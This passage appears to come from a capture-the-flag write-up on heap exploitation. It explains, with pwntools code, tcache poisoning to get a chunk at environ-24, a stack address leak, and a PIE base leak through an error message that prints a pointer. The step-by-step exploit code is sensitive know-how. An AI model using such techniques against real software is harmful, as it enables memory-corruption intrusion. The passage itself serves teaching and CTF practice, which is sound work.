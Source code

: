 **What Happened:**

Before:
```
Tcache: chunk_D -> chunk_X -> ...
```

After:
```
Tcache: chunk_D -> (environ-24) -> ...
```

#### Step 3: Allocate to Get environ Chunk

```python
chunk_E = create(0x80)  # Gets chunk_D back from tcache
chunk_F = create(0x80)  # Gets chunk at environ-24!
```

Now `ptr_table[chunk_F]` points to `environ-24` on the stack.

#### Step 4: Read Stack Address

```python
# Overwrite to environ position
write(chunk_F, 0, b'A' * 24)

# Read environ value (stack address)
read(chunk_F)
p.recvn(0x19)  # Skip our 'A's
stack_leak = u64(p.recvn(8)[2:].ljust(8, b'\x00'))

# Calculate return address location
rbp_addr = stack_leak - 0x138
log.success(f"Return address at: {hex(rbp_addr)}")
```

### Stage 4: PIE Base Leak

**Goal:** Calculate binary base address to locate `ptr_table`.

Exploit the information leak in the write function:

```python
# Trigger error with invalid index
p.sendline(b'write 15')  # Valid index, but will be NULL
p.sendline(b'0')
p.recvuntil(b'0x')

# Parse leaked address
leak_elf = int(p.recv(12), 16)
elf_base = leak_elf - 0x4150  # Offset of ptr_table
log.success(f"ELF base: {hex(elf_base)}")
```

The error message reveals: `[ERROR] Log #0x55555555c150 doesn't exist!!`
